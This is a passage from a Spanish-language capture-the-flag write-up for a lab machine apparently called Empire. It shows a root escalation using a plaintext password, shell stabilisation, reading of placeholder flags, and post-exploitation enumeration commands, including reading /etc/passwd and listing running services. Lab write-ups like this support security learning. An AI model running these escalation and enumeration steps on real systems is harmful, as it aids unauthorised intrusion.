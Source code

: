 #### Escalada Final a Root
```bash
# Cambiar a usuario root
cyber@empire:~$ su root
Password: Ts&4&YurgtRX(=~h

# Verificar acceso root
root@empire:/home/cyber# whoami
root

# Estabilizar shell
root@empire:/home/cyber# script /dev/null -c bash
```

### 3.5 Obtención de Flags

#### User Flag
```bash
cyber@empire:~$ cat user.txt
[USER_FLAG_CONTENT]
```

#### Root Flag  
```bash
root@empire:~# cat /root/root.txt
[ROOT_FLAG_CONTENT]
```

---

## Fase 4: Post-Explotación y Persistencia

### 4.1 Enumeración Completa del Sistema Comprometido

#### Información del Sistema
```bash
# Información completa del kernel
uname -a
cat /proc/version
lscpu

# Distribución y versión
cat /etc/os-release
cat /etc/issue

# Usuarios del sistema
cat /etc/passwd | grep -E "/bin/(ba)?sh"
cat /etc/group

# Servicios en ejecución
systemctl list-units --type=service --state=running
ps auxf
```
